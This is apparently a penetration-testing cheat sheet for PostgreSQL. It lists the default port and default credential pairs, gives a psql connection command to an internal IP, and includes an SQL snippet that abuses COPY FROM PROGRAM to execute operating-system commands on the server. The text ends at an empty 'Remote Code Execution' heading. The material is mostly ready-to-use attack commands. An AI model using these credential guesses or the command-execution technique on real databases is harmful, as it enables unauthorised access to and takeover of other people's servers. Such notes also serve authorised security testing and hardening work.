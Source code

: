 # PostgreSQL
- Default Port: 5432

## Default credentials
```
postgres:<empty>
postgres:postgres
```

## Connection
```
psql -h 192.168.58.47 -U postgres -p 5437
```

## CLI Commands
- `\l`: List Databases

## System Command Execution
```sql
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

## Remote Code Execution (RCE)
